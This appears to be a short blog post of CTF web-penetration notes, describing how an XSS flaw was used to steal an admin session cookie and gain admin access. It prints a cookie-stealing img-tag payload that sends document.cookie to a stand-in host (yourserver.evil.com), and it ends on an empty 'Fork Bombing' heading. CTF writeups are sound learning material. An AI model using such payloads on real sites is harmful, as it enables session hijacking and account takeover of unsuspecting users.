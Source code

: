 ```yaml
---
layout: post
title:  "Cyber XSS notes"
date:   2019-06-15 14:29:25 +0800
categories: infosec
---
```

> Web penetration writeups

*Due to the on-going nature of the CTF, I will be avoiding keywords related to the problem or hint the answer out of respect for the competition.*

## Cookie Stealing

Basically, there's a page which might be vulnerable to XSS. The goal is to use XSS to change the access level to admin.

Right off the bat, we see that there is a server console on the page. As I opened my *editthiscookie* tool, I saw that there is a user cookie. This hints that we are trying to use XSS to steal the admin cookie as we are given the server address.

> XSS are known to be used to steal cookies. The most common type of attack is to use JavaScript to steal a user's log in cookie (called a session cookie).

Hence, I'll try a script to be run on the page to acess the page.

```javascript
<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />
```

Looking at the console, it seems that they logged the admin cookie. Once I changed my user cookie to the admin's, I instantly got access.

And we're done!

## Fork Bombing

> XSS that hangs the server
